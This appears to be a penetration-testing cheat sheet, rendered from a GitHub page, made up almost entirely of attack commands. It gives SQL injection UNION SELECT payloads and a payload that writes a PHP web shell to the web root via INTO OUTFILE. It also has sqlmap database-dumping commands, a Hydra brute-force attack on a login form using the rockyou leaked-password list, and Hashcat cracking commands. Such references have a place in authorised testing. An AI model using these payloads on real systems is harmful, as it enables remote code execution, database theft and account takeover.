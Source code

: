 ### Union Select
> when finding an injection point figure out the expected number of columns, you know the correct number when the query gets executed successfully
```
foo' union select 1-- -
foo' union select 1,2-- -
foo' union select 1,2,3-- -
...
```
> with the correct number of columns, try getting a reverseshell
```
foo' union select "<?php SYSTEM($_REQUEST['cmd']) ?>" INTO OUTFILE '/var/www/html/shell.php'-- -
```

## MYSQL
```bash
mysql -u [USER] -p'[PASSWORD]'
mysql -u [USER] -p'[PASSWORD]' -h [HOST/IP]
```

## SQLMAP
```bash
sqlmap -r [FULLFILEPATHTOREQUEST] -p [PARAM IN REQ BODY] --proxy="http://127.0.0.1:8080"
sqlmap -u [URL]/?[PARAMNAME]=param1
```
> --dbs : dump database names\
--proxy="http://127.0.0.1:8080"\
-D [DB] : choose Target Database\
-T [TABLE] : choose Target Table\
-dump : dump target table\
--dbms=[DBTYPE] : choose DBType (mysql)

## MONGODB cli
```bash
mongo "mongodb://user:pass@localhost:27017/myplace"
db # list databases
use <db>
show collections
db.<collection name>.find() # lists all entries for one collection
db.tasks.insertOne({<name>: <content>})
```

## HYDRA
```bash
export HYDRA_PROXY_HTTP=http://127.0.0.1:8080 # set a proxy
hydra -l "Administrator" -P /opt/SecLists/Passwords/Leaked-Databases/rockyou-20.txt [DOMAIN]  http-post-form "/:username=^USER^&password=^PASS^:Your Login Name or Password is invalid" -V -I
```

## HASHCAT (Windows)
```shell
.\hashcat.exe -a [ATTACKTYPE] -m [HASHTYPE] [PATHTOHASHES] [PATHTODICTIONARY] -r [PATHTORULE]
```
>ATTACKTYPE : 0 for dictionary/dictionary-rule attack\
HASHTYPE : tunnelsup.com/hash-analyzer/, hashcat.net/wiki/doku.php?id=example_hashes\
PATHTORULE : \rules\best64.rule is good
